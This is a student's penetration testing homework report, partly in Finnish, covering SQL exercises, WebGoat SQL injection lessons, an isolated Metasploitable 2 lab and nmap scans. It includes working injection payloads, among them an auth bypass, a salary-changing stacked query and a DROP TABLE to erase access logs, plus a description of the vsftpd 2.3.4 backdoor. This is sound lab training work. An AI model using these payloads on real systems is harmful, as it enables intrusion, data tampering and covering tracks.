

# h2 turbo boosted

Part of Penetration Testing ICT4TN027-3007 course of Haaga-Helia University of Applied Sciences held by Tero Karvinen. Course is in Finnish.  
  
Course page: https://terokarvinen.com/2021/penetration-testing-course-2022-spring/

Tunkeutumistekniikoita saa harjoitella vain annettuihin harjoitusmaaleihin.
Tarkista kohteiden osoitteet huolella, ja irrota tarvittaessa tietokoneet
Internetistä. Oppitunneilla ja kurssin säännöissä on annettu tarkempia ohjeita.
Vieraita koneita ei saa porttiskannata, eikä vieraisiin koneisiin saa hyökätä.

## z) Lue ja tiivistä. Tässä z-alakohdassa ei tarvitse tehdä testejä tietokoneella, vain lukeminen ja tiivistelmä riittää). Tiivistämiseen riittää muutama ranskalainen viiva.

  * OWASP 10 A03:2021 - Injection  
    - Hyökkääjä onnistuu injektoimaan omia kyselyitään tai koodiaan sovellukseen
    - 94 % testatuista sovelluksistas löytyi jonkinlainen haavoittuvuus tässä luokassa
    - Injektiohyökkäysten torjumiseksi:
      + Käytä turvallisia API-toteutuksia
      + Vahvista käyttäjäsyötteeet turvallisesti palvelimen puolelta


Tee ja raportoi:

## a) SELECT * FROM student. Ratkaise [SQLZoo:sta](https://sqlzoo.net/wiki/SQL_Tutorial): 0 SELECT basics, 1 SELECT name, 2 SELECT from World.  
  
### [SELECT basics](https://sqlzoo.net/wiki/SELECT_basics)
1. Show the population of Germany.  
    ```
    SELECT population FROM world
      WHERE name = 'Germany' 
    ```
2. Show the name and the population for 'Sweden', 'Norway' and 'Denmark'.  
    ```
    SELECT name, population FROM world
      WHERE name IN ('Sweden', 'Norway', 'Denmark');
    ```
3. how the country and the area for countries with an area between 200,000 and 250,000. 
    ```
    SELECT name, area FROM world
      WHERE area BETWEEN 200000 AND 250000
    ```
  
### [SELECT names](https://sqlzoo.net/wiki/SELECT_names)  

### [SELECT from World](https://sqlzoo.net/wiki/SELECT_from_WORLD_Tutorial)  

1. Show all countries in with columns name, continent and population.  
    ```
    SELECT name, continent, population FROM world

    ```
2. Show the name for the countries that have a population of at least 200 million.  
    ```
    SELECT name FROM world
      WHERE population >= 200000000
    ```
    
3. Give the name and the per capita GDP for those countries with a population of at least 200 million.  
    ```
    SELECT name, (gdp / population) as 'per capita GDP' FROM world
      WHERE population >= 200000000
    ```  
 
4. Show the name and population in millions for the countries of the continent 'South America'.  
    ```
    SELECT name, (population / 1000000) as 'pop/mil' FROM world
      WHERE continent LIKE 'South America'
    ```
  
5. Show the name and population for France, Germany, Italy.  
    ```
    SELECT name, population FROM world
      WHERE name IN ('France', 'Germany', 'Italy')
    ```
6. Show the countries which have a name that includes the word 'United'.   
    ```
    SELECT name FROM world
      WHERE name LIKE '%United%'
    ```
7. Show the countries that are big by area(>3mil sq km) or big by population(>250mil people). Show name, population and area.  
    ```
    SELECT name, population, area FROM world
      WHERE area > 3000000 OR population > 250000000
    ```
8. Show the countries that are big by area (more than 3 million) or big by population (more than 250 million) but not both. Show name, population and area.  
    ```
    SELECT name, population, area FROM world
      WHERE area > 3000000 XOR population > 250000000
    ```
9. For South America show population in millions and GDP in billions both to 2 decimal places.  
    ```
    SELECT name, ROUND(population/1000000, 2) as 'pop/mil', ROUND(gdp/1000000000, 2) as 'gpd/bil' FROM world
      WHERE continent LIKE 'South America'
    ```
10. Show per-capita GDP for the trillion dollar countries to the nearest $1000.
    ```
    SELECT name, ROUND(gdp/population, -3) as 'gdp/pop' FROM world
      WHERE gdp >= 1000000000000
    ```
11. Show the name and capital where the name and the capital have the same number of characters.   
    ```
    SELECT name, capital FROM world
      WHERE LENGTH(name)=LENGTH(capital)
    ```
12. Show the name and the capital where the first letters of each match. Don't include countries where the name and the capital are the same word.  
    ```
    SELECT name, capital FROM world
      WHERE LEFT(name, 1) = LEFT(capital, 1)
      AND name <> capital
    ```
13. Find the country that has all the vowels and no spaces in its name.  
    ```
    SELECT name FROM world
      WHERE name LIKE '%a%'
        AND name LIKE '%e%'
        AND name LIKE '%i%'
        AND name LIKE '%o%'
        AND name LIKE '%u%'
        AND name NOT LIKE '% %'
    ```
  
## b) Ratkaise WebGoatista: A1 Injection (intro).  
  
2. 
Haluttu osasto saadaan yksinkertaisella koodilla:  
`SELECT department FROM employees WHERE last_name LIKE 'Franco' AND first_name LIKE 'Bob'`

Vieläkin helpompi vaihtoehto olisi seuraava, jos tehtävän annossa olisi suoraan annettu käyttäjän userid:  
`SELECT deparment FROM employees WHERE userid=96134`  

3. DML (Data Manipulation Language)  
Sisältää yleisimmät SQL komennot kuten SELECT, INSERT, UPDATE, DELETE jne.  

CIA rikkomukset:  
Confidentiality, Integrity  

Ratkaisu:  
```
UPDATE employees SET department = 'Sales' WHERE first_name LIKE 'Tobi' AND last_name LIKE 'Barnett'
USERID FIRST_NAME LAST_NAME DEPARTMENT SALARY AUTH_TAN
89762 Tobi Barnett Sales 77000 TA9LL1 
``` 
4. DDL (Data Definition Language)  

Tietokantaobjektien rakenteen luonti (CREATE), muokkaaminen (ALTER) ja pudottaminen (DROP)  

CIA rikkomukset:   
Integrity and Availability  

Ratkaisu:  
`ALTER TABLE employees ADD phone varchar(20);`

5. DCL (Data Control Language)  
  
Oikeuksien lisäämistä/korottamista tietokannan manipuliomiseksi.  
  
Komennot kuten GRANT ja REVOKE.  
  
CIA rikkomukset:  
Confidentiality and Availability  
  
Solution:
`GRANT ALTER TABLE TO 'UnauthorizedUser';`
  
9. Try It! String SQL injection

Monivalintatehtävä:  
"SELECT * FROM user_data WHERE first_name = 'John' AND last_name = 'Smith or 1=1';  
  
10. 
Aluksi yritin laittaa NaN arvon Login_Count kenttään:  
`Could not parse: sdfwdf to a number`
Tämä lienee suojattu.  

Onnistunut kysely:  
```
Login_Count = 0
userid = 0 OR 1=1 
``` 
  
11. Confidentiality (Get access to salaries)

Aluksi katsoin vain, miltä John Smithin tiedot näyttävät:  
Input:  
```
Name: Smith
TAN: 3SL99A
```
SQL kysely johon injektio pitää tehdä:  
`"SELECT * FROM employees WHERE last_name = '" + name + "' AND auth_tan = '" + auth_tan + "';`
```
Input: Demon' OR 'a'='a
TAN: 3SL99A' OR 'a'='a
```
Sijoitetaan:  
`"SELECT * FROM employees WHERE last_name = 'Smith' OR 'i'='i' AND auth_tan = '3SL99A' OR 'i'='i';`

Onnistui.  
  
  
  
**Osat 12. ja 13. lisätty 11.4.2022**   
  
12. Integrity (Get a payraise)
  
This one was a pretty straight forward after understanding the syntax in the previous.  
As we need to change some data in the database I will use the UPDATE and SET commands to achieve my goals.  
So the original query again:  
`"SELECT * FROM employees WHERE last_name = '" + name + "' AND auth_tan = '" + auth_tan + "';`  
  
Input  
```
Name: Fairy  
TAN: Godmother'; UPDATE employees SET salary=99000 WHERE auth_tan='3SL99A  
```

The query being sent to the server would look like this:  
`SELECT * FROM employees WHERE last_name = 'Fairy' AND auth_tan = 'Godmother'; UPDATE employees SET salary=99000 WHERE auth_tan='3SL99A'`  
  
A big payraise for John Smith **succesful**.  
    
13. Availabity (Cover the trail)  
  
So the goal is to wipe out the access_log table.    
I'm going to assume this will achieved by using DROP TABLE access_log.  
Once again, first I just wanted to test the form so I just clicked search and was met with a record of my illegal actions. Not cool.  
The SQL query is probably something like this:  
`SELECT * FROM access_log WHERE action = '" + action + "';`
  
So let's see:  
Action contains: `test'; DROP TABLE access_log`  
So the query would be:  
`SELECT * FROM access_log WHERE action = 'test'; DROP TABLE access_log ';`    
Did not really think this would work and it didn't but wanted to see what happens for educational purposes. 
We seem to have a trailing quotation mark in the SQL query sent to the server.  
  
Let's comment the quote out:  
Action contains: `'; DROP TABLE access_log --`  
`SELECT * FROM access_log WHERE action = ''; DROP TABLE access_log -- ''`  

We have **succesfully** covered our trail.  

## c) Nyrkkeilysäkki. Asenna Metasploitable 2 samaan verkkoon Kalin kanssa. Katso, ettei haavoittuva Metasploitable 2 näy Internetiin.
  
1. Asennustiedoston lataus ja purku.  
    Latasin Metasploitable 2 zip -pakatun tiedoston osoitteesta: https://sourceforge.net/projects/metasploitable/files/latest/download  
    Purin paketin sisällön:  
    ```
    pajazzo@derpface:$ unzip Downloads/metasploitable-linux-2.0.0.zip -d ~/Tools/
    Archive:  Downloads/metasploitable-linux-2.0.0.zip
      creating: /home/pajazzo/Tools/Metasploitable2-Linux/
      inflating: /home/pajazzo/Tools/Metasploitable2-Linux/Metasploitable.nvram  
      inflating: /home/pajazzo/Tools/Metasploitable2-Linux/Metasploitable.vmdk  
    extracting: /home/pajazzo/Tools/Metasploitable2-Linux/Metasploitable.vmsd  
      inflating: /home/pajazzo/Tools/Metasploitable2-Linux/Metasploitable.vmx  
      inflating: /home/pajazzo/Tools/Metasploitable2-Linux/Metasploitable.vmxf 
    ```
3. Metasploitable 2 asennus VirtualBoxiin.  
    Avasin Virtualboxin ja valitsin New vaihtoehdon uuden virtuaalikoneen luomiseksi. Tein seuraavat asetukset ja loin uuden koneen Create painikkeella:   
      * Name: Metasploitable2  
      * Type: Linux   
      * Version: Ubuntu (32-bit)  
          - Tämä voi toimia muillakin vaihtoehdoilla, mutta tällä olen itse saanut Metasploitablen pyörimään aiemmin.  
      * Use an existing virtual hard disk file: Metasploitable.vmdk  
          - Tähän tulee valita siis kyseinen .vmdk -tiedosto edellisessä kohdassa purkamistasi tiedostoista.  
    Muut asetukset voivat jäädä oletusarvoiksi.  
      
        
    
      Virtuaalikone ilmestyi VirtualBoxin konelistalla.  
  
4. Verkkoasetukset  
    Koska Metasploitable2 on erittäin haavoittuvaksi rakennettu tietokone, on tärkeää varmistua, ettei se pääse ottamaan yhteyttä oikeaan Internetiin. Tässä osassa liitän koneen aiemmin luomaani VirtualBoxin paikalliseen verkkoon.  
      * Ohjeet verkon luomiseen edeltävän kurssin [sivuiltani](https://github.com/pajaz/DataSecurityCourse2022/blob/main/Homework/Lesson4.md#a-my-networks-add-a-new-vboxnet-internal-network-to-your-virtualbox-file-host-network-manager) (englanniksi)  
      
    Seuraavaksi avasin Metasploitable2 virtuaalikoneen asetukset Settings -kuvakkeen kautta ja aukeavasta ikkunasta valikon Network.  
    Tein seuraavat säädöt ja valitsin OK:  
      

5. Metasploitable käyntiin ja verkon tarkistus.  
  
    Käynnistin luomani Metasploitable2 virtuaalikoneen Start painikkeesta ja kirjauduin sisään oletustunnuksilla:  
      * Käyttäjätunnus: msfadmin  
      * Salasana: msfadmin    
    Kirjautuminen onnistui.  
    Ensin tarkistin, ettei Metasploitable ole oikeassa Internetissä yrittämällä ottaa curl sovelluksella yhteyden googleen ja sitten katsoin itselleni ylös Metasploitable koneen IP-osoitteen testailua varten:  
        
    
    Kone ei saanyt yhteyttä verkkoon. Tein saman testin vielä parilla eri sivulla ja tulos oli vastaava.    
    IP-osoite on 192.168.56.8.  
  
6. Varmistetaan, että Kali Linux virtuaalikoneeni on samassa verkkossa.  

    Tein Kali -virtuaalikoneelleni tämän tehtävän kohdan 4 asetukset ja käynnistin koneen.  
    Myöskään Kali asennukseni ei saa yhteyttä verkkosivuille kuten kuulukin tässä vaiheessa.  
    Testasin pingata Metasploitable virtuaalikonetta:  
    ```
    ┌──(pajazzo㉿kali)-[~]
    └─$ ping 192.168.56.8
    PING 192.168.56.8 (192.168.56.8) 56(84) bytes of data.
    64 bytes from 192.168.56.8: icmp_seq=1 ttl=64 time=1.06 ms
    64 bytes from 192.168.56.8: icmp_seq=2 ttl=64 time=1.01 ms
    64 bytes from 192.168.56.8: icmp_seq=3 ttl=64 time=0.987 ms
    64 bytes from 192.168.56.8: icmp_seq=4 ttl=64 time=1.03 ms
    64 bytes from 192.168.56.8: icmp_seq=5 ttl=64 time=0.982 ms
    ^C
    --- 192.168.56.8 ping statistics ---
    5 packets transmitted, 5 received, 0% packet loss, time 4002ms
    rtt min/avg/max/mdev = 0.982/1.013/1.060/0.029 ms
    ```
    Näyttäisi toimivan ja koneet ovat siis samassa verkossa.  


## d) Nauhalle. Nauhoita kaikki konsolissa annetut asiat ja näkyvät tulosteet koko tehtävästä. (esim script)  
  
Päätin käyttää script -sovellusta, joka tulee esiasennettuna ainakin omiin käyttöjärjestelmä versiohini.  
Testi:  
```
┌──(pajazzo㉿kali)-[~]
└─$ script test                                                                                
Script started, output log file is 'test'.
┌──(pajazzo㉿kali)-[~]
└─$ ls                                                                                         
Desktop    Downloads    Pictures  rules      test    webgoat-server-8.0.0.M26.jar
Documents    Music      Public    Templates  Videos

┌──(pajazzo㉿kali)-[~]
└─$ mkdir testfolder                                                                         

┌──(pajazzo㉿kali)-[~]
└─$ rm -r testfolder/

┌──(pajazzo㉿kali)-[~]
└─$                                                                                            
exit
Script done.

┌──(pajazzo㉿kali)-[~]
└─$ cat testfile                                                                      
cat: testfile: No such file or directory

┌──(pajazzo㉿kali)-[~]
└─$ cat test
Script started on 2022-04-09 06:16:06-04:00 [TERM="xterm-256color" TTY="/dev/pts/0" COLUMNS="95" LINES="36"]
┌──(pajazzo㉿kali)-[~]
└─$ ls                                                                                         
Desktop    Downloads   Pictures  rules      test    webgoat-server-8.0.0.M26.jar
Documents      Music      Public    Templates  Videos

┌──(pajazzo㉿kali)-[~]
└─$ mkdir testfolder                                                                         

┌──(pajazzo㉿kali)-[~]
└─$ rm -r testfolder/

┌──(pajazzo㉿kali)-[~]
└─$                                                                                            
exit

Script done on 2022-04-09 06:16:20-04:00 [COMMAND_EXIT_CODE="0"]
```
  
Näyttäisi toimivan.  

## e) Ei kuulu! Ennenkuin aloitat skannaukset, kokeile, ettei Kali pääse nettiin 'ping 8.8.8.8' vastaa "Network is unreachable".  
 ``` 
  ┌──(pajazzo㉿kali)-[~]
  └─$ ping 8.8.8.8                                                                          
  ping: connect: Network is unreachable
  ```

8.8.8.8 on Googlen DNS-palvelimen osoite. Koska Googlen DNS-palvelu on globaali ja kaikkien käytettävissä joten se on sopiva verkkoyhteyden testaamiseen. (Lisätty 11.4.2022) 
  
Lähde: https://www.whatsmydns.net/articles/8-8-8-8.html  
  
## f) Piilosilla. Etsi Metasploitable 2 verkkoskannauksella. Tarkista ensin, että osoitteet ovat uskottavia (ipcalc 10.0.0.1/23). Sitten ping sweep (nmap -sn). Analysoi tulokset, eli selitä, mitä mikäkin asia tulosteessa tarkoittaa. Mitä päättelet eri koneista?  

Tarkistin ensin mistä verkosta lähdetään hakemaan tietokoneita ip a (a = address)-komennolla:   
```
┌──(pajazzo㉿kali)-[~]
└─$ ip a                                                                                                                                                                                                                             
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:95:bd:54 brd ff:ff:ff:ff:ff:ff
    inet 192.168.56.5/24 brd 192.168.56.255 scope global dynamic noprefixroute eth0
       valid_lft 548sec preferred_lft 548sec
    inet6 fe80::a00:27ff:fe95:bd54/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
```
  
Oman tietokoneeni paikallinen IP-osoite on `inet 192.168.56.5` ja sen subnet mask `/24` eli 255.255.255.0. Verkkoon mahtuu siis 255 laitetta tällä  konfiguraatiolla. Lähde: https://docs.netgate.com/pfsense/en/latest/network/cidr.html  
  
En ymmärrä ensimmäistä ohjetta uskottavista osoitteista.  
 
Lähdin hakemaan kaikkia verkossa olevia koneita [näiden](https://lindevs.com/find-all-devices-connected-to-local-network-using-nmap/) ohjeiden mukaan komennolla sudo nmap -sn 192.168.56.0/24 (käsittääkseni sudo nmap -sn 192.168.56.1-255 ajaisi saman asian):  
```
┌──(pajazzo㉿kali)-[~]
└─$ sudo nmap -sn 192.168.56.0/24                                                                                                                                                                                                   
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-09 07:29 EDT
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.1
Host is up (0.00036s latency).
MAC Address: 0A:00:27:00:00:00 (Unknown)
Nmap scan report for 192.168.56.2
Host is up (0.00030s latency).
MAC Address: 08:00:27:9B:DD:76 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.8
Host is up (0.00071s latency).
MAC Address: 08:00:27:D8:C6:08 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.5
Host is up.
Nmap done: 256 IP addresses (4 hosts up) scanned in 2.04 seconds
                                                                                                                                                                                            
```
  
Löytyi siis neljä eri tavoitettavissa olevaa hostia, joista kaksi näyttävät pyörivän VirtualBoxin verkkosovittimella. Kahdesta muusta ei juurikaan tietoa.  
Alla rivejä vähän avattuna:  
Rivi | Seloste
---|---
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled.  | Koska yhteyttä oikeaan Internetiin ei ole olemassa, eikä paikallisia nimipalveluja ole määritetty, ei myöskään Reverse DNS Lookup ole päällä, eli domain-nimien selvitys IP-osoitteiden avulla ei onnistu. 
Host is up (0.00xxs latency). | Kohde kone on tavoitettavissa ja latenssi eli viive on hyvin pieni 0.00xxs (Lähetetyn paketin käyttämä matka lähtöhetkestä vastauksen saamiseen kohdekoneelta.)
MAC Address: 08:00:27:D8:C6:08 (Oracle VirtualBox virtual NIC) | Kohde tietokoneen MAC osoite eli tietokoneen yksilöity osoite sen käyttämällä verkkosovittimella. Heksadesimaali muotoinen ja voidaan käyttää tunnistamaan laite verkkonsa sisällä. Verkkosovittimiseksi skannaus ilmoitti Virtual Boxin NICin (Network Interface Controller).  
Nmap done: 256 IP addresses (4 hosts up) scanned in 2.04 seconds | Tehtävä suoritettu, 4 hostia (isäntää) löydetty ja tavoitettavissa. Aikaa kului 2.04 sekuntia eli ei kovin kauaa. Skannauksen nopeus ja pienet viiveet johtuvat siitä, että koneet ovat samassa verkossa.  
  
Tässä vaiheessa voin karsia jo pois yhden vaihtoehdoista eli oman koneeni 192.168.56.5.  

Jäljelle jäävät IP-osoitteet:  
192.168.56.1  
192.168.56.2  
192.168.56.8 (Todennäköisin haavoittuva kone, koska palautti enemmän tietoa ping sweepillä kuin kaksi muuta)   

Lähteet:  
Understanding CIDR subnet mask notation, https://docs.netgate.com/pfsense/en/latest/network/cidr.html
Find all devices connected to local network using nmap, https://lindevs.com/find-all-devices-connected-to-local-network-using-nmap/
  
## g) Kilo. Porttiskannaa 1000 tavallisinta porttia löydetyistä koneista. Selitä ja analysoi tulokset. Mikä koneista voisi olla Metasploitable 2?
  
Lähdin kokeilemaan nmap skannausta käyttämättä mitään vipuja jolloin nmap skannaa 1000 yleisintä porttia annetuista kohteista:  
```
┌──(pajazzo㉿kali)-[~]
└─$ sudo nmap 192.168.56.1-2 192.168.56.8                                                                                                                                                                                        
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-09 07:46 EDT
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.1
Host is up (0.00023s latency).
All 1000 scanned ports on 192.168.56.1 are in ignored states.
Not shown: 1000 filtered tcp ports (no-response)
MAC Address: 0A:00:27:00:00:00 (Unknown)

Nmap scan report for 192.168.56.2
Host is up (0.000065s latency).
All 1000 scanned ports on 192.168.56.2 are in ignored states.
Not shown: 1000 filtered tcp ports (proto-unreach)
MAC Address: 08:00:27:9B:DD:76 (Oracle VirtualBox virtual NIC)

Nmap scan report for 192.168.56.8
Host is up (0.00032s latency).
Not shown: 977 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
23/tcp   open  telnet
25/tcp   open  smtp
53/tcp   open  domain
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
512/tcp  open  exec
513/tcp  open  login
514/tcp  open  shell
1099/tcp open  rmiregistry
1524/tcp open  ingreslock
2049/tcp open  nfs
2121/tcp open  ccproxy-ftp
3306/tcp open  mysql
5432/tcp open  postgresql
5900/tcp open  vnc
6000/tcp open  X11
6667/tcp open  irc
8009/tcp open  ajp13
8180/tcp open  unknown
MAC Address: 08:00:27:D8:C6:08 (Oracle VirtualBox virtual NIC)

Nmap done: 3 IP addresses (3 hosts up) scanned in 4.00 seconds
```
  
Palautteesta huomataan välittömästi, että .1 ja .2 päätteiset hostit eivät juuri kerro itsestään. Kaikki 1000 skannattua porttia ovat filtered -tilassa, mikä saattaa viitata siihen, että ne ovat palomuurin takana. Lähde väitteelle: https://nmap.org/book/man-port-scanning-basics.html  

Kolmas skannattu kone taas näyttää olevan reikäjuustoa, mitä tulee avoimiin portteihin. Tämä on suurella varmuudella Metasploitable2 kone.  

Mahdollinen kohde tunnistettu koneeksi:  
192.168.56.8  
  
## h) Ja tiskiallas. Porttiskannaa Metasploitable 2 perusteellisesti. Selitä ja analysoi tulokset. Selitä kustakin avoimesta portista, mikä palvelu siinä on /mihin se on tarkoitettu, onko se tavallisesti näkyvissä Internetiin ja onko se nykyiaikainen. Voit myös arvioida, onko versio päivitetty.  
  
Olen tehnyt tästä samasta koneesta jo kattavan (-Av) porttianalyysin edellisellä [kurssilla](https://github.com/pajaz/DataSecurityCourse2022/blob/main/Homework/Lesson4.md#b-punchbag-install-metasploitable-2-practice-target-on-virtual-box-and-only-connect-it-to-your-new-virtual-network-login-to-metasploitable-2-and-find-out-its-ip-address).  
Käytin tähän tehtävään vähän kevyempää metodia -sV, joka skannaa kohteen portit ja pyrkii ilmoittamaan niissä elävän palvelun nimen ja version. Lähde: https://nmap.org/book/man-version-detection.html  

```
┌──(pajazzo㉿kali)-[~]
└─$ sudo nmap -sV 192.168.56.8                                                                
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-09 15:06 EEST
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.8
Host is up (0.000062s latency).
Not shown: 977 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
53/tcp   open  domain      ISC BIND 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp  open  rpcbind     2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp  open  exec        netkit-rsh rexecd
513/tcp  open  login       OpenBSD or Solaris rlogind
514/tcp  open  shell       Netkit rshd
1099/tcp open  java-rmi    GNU Classpath grmiregistry
1524/tcp open  bindshell   Metasploitable root shell
2049/tcp open  nfs         2-4 (RPC #100003)
2121/tcp open  ftp         ProFTPD 1.3.1
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp open  vnc         VNC (protocol 3.3)
6000/tcp open  X11         (access denied)
6667/tcp open  irc         UnrealIRCd
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
MAC Address: 08:00:27:D8:C6:08 (Oracle VirtualBox virtual NIC)
Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.69 seconds

```
  
Skannauksen lopputuloksena löytyi 23 avointa porttia ja iso kasa erilaisia palveluita.  
Portti-/Palveluanalyysi:  
Portti | Palvelu | Versio | Kommentit | Exploit
---|---|---|---|---
21/tcp | ftp | vsftpd 2.3.4 | Very Secure FTP Daemon palvelin. Versiossa 2.3.4 havaittiin Heinäkuussa 2011 haavoittuvuus, joka antaa root -oikeuden tunkeutujalle. Nykyinen versio 3.0.2 | :) -emoticonin syöttäminen ftp kirjautumisessa käyttäjätunnukseksi antaa portin 6200 kautta kohdekoneen komentorivin käyttäjän haltuun. Lähde: https://help.ubuntu.com/community/vsftpd
22/tcp | ssh | OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0) | Secure Shell Protokollaan (SSH) perustuva tuvallisen etäkäytön mahdollistava toteutus. Versio 4.7.1p1 | En löytänyt suoria haavoittuvuuksia. Mahdollisesti, jos muilla keinoilla saadaan selville käyttäjätunnus ja salasana koneelle, voidaan käyttää hyväksi. 
23/tcp | telnet | Linux telnetd | SSH:n kaltainen etäyhteyspalvelin. Ei tulisi käyttää julkisessa Internetissä, koska data liikkuu salaamattomana. Lähde: https://en.wikipedia.org/wiki/Telnet | **Tarkempi skannaus**, josko selviäisi lisätietoja  
25/tcp | smtp | Postfix smtpd | Sähköpostiprotokolla, joka mahdollistaa sähköpostiliikenteen pois ja sisään koneelta. | Useita haavoittuvuuksia, useissa versioissa [CVEdetails.com](https://www.cvedetails.com/vulnerability-list.php?vendor_id=8450&product_id=0&version_id=0&page=1&hasexp=0&opdos=0&opec=0&opov=0&opcsrf=0&opgpriv=0&opsqli=0&opxss=0&opdirt=0&opmemc=0&ophttprs=0&opbyp=0&opfileinc=0&opginf=0&cvssscoremin=0&cvssscoremax=0&year=0&cweid=0&order=1&trc=8&sha=35bd0db6eaf0ce6e6602815626646549104adcab). 
53/tcp | domain | ISC BIND 9.4.2 | 53/tcp on yleensä DNS nimipalvelun portti (https://www.howtouselinux.com/post/dns-port). Valitettavasti kyseisestä palvelusta ISC BIND en oikein ymmärtänyt, mikä se tarkalleen ottaen on. | [CVEDetails.com](https://www.cvedetails.com/vulnerability-list.php?vendor_id=64&product_id=144&version_id=436267&page=1&hasexp=0&opdos=0&opec=0&opov=0&opcsrf=0&opgpriv=0&opsqli=0&opxss=0&opdirt=0&opmemc=0&ophttprs=0&opbyp=0&opfileinc=0&opginf=0&cvssscoremin=0&cvssscoremax=0&year=0&cweid=0&order=1&trc=16&sha=dad7c6e418e73a87d38347dbbb6b0201c4eccd68) listauksen mukaan ISC BIND 9.4.2 versio mahdollistaa palvelunestohyökkäykset datan manipuloinnin avulla.  
80/tcp | http | Apache httpd 2.2.8 ((Ubuntu) DAV/2) | Koneella on päällä Apache demoni ja se on käynnissä portissa http portissa 80. Versio 2.2.8 ajettiin alas 2017. https://httpd.apache.org/security/vulnerabilities_22.html | **Katso, mitä löytyy osoitteesta 192.168.56.8** 
111/tcp | rpcbind | 2 (RPC #100000) | [Remote Procedure Call service](https://en.wikipedia.org/wiki/Remote_procedure_call) -wikipedia. Mahdollista sovelluksen subroutiinien ajamisen toisessa osoiteavaruudessa (Yleensä toisella koneella samassa verkossa). | Mahdollisesti palvelun estohyökkäykseen, koska rpcbind 0.2.4 versiossa vikoja suurten tiedostokokojen käsittelyn suhteen (https://ubuntu.com/security/notices/USN-4986-1). 0.2.0 versiossa haavoittuvuuksia, jotka mahdollistavat tiedostojen kirjoittamisen tai käyttöoikeuksien korotuksen:  https://www.cvedetails.com/cve/CVE-2010-2064/. Myös https://www.cvedetails.com/cve/CVE-2010-2061/ haavoittuvuus, joka antaa koneen järjestelmän täysin hyökkääjän haltuun rpdbinc.xdr ja portmap.xdr tiedostojen manipuloinnin kautta. 
139/tcp | netbios-ssn | Samba smbd 3.X - 4.X (workgroup: WORKGROUP) |   
445/tcp | netbios-ssn | Samba smbd 3.X - 4.X (workgroup: WORKGROUP) | Palvelu joka mahdollistaa Linux/UNIX järjestelmille tiedosto- ja tulostustoiminnot Windowsin Active Directory järjestelmässä. Porttien 139 ja 445 ei tulisi olla näkyvissä verkkoon, koska niitä voidaan käyttää madonreikinä muiden verkon koneiden saastuttamiseen. https://thecyphere.com/blog/smb-port/
512/tcp | exec | netkit-rsh rexecd | 
513/tcp | login | OpenBSD or Solaris rlogind |
514/tcp | shell | Netkit rshd | Kolme porttia, jotka kaikki liittyvät Berkeley-R etähallinta työkaluihin. Lähetetty data on suojaamatonta ja työkalujen konfiguraatiot helppo tehdä väärin. Näiden porttien ei tulisi olla näkyvissä verkkoon.  https://en.wikipedia.org/wiki/Berkeley_r-commands | 
1099/tcp | java-rmi | GNU Classpath grmiregistry | Java Remote Method Invocation https://www.tutorialspoint.com/java_rmi/java_rmi_introduction.htm | 
1524/tcp | bindshell | Metasploitable root shell | Root shell auki Internetiin. | Yritetään ottaa yhteys porttiin ja katsotaan, mitä tapahtuu
2049/tcp | nfs | 2-4 (RPC #100003) | Network File System protocol tiedostojen siirtoon. Sekä Windows- että Linux-käyttöjärjestelmille. 
2121/tcp | ftp | ProFTPD 1.3.1 | File Transfer Protocol tiedostonsiirto protokolla. Uusin ProFTPD versio 1.3.7. https://www.cvedetails.com/cve/CVE-2008-4242/ | ProFTPD versio 1.3.1 on haavoittuva Cross-Site Request Forgery hyökkäyksille. Se käsittelee pitkät komennot FTP Clientilta useina komentoina. https://www.cvedetails.com/cve/CVE-2008-4242/
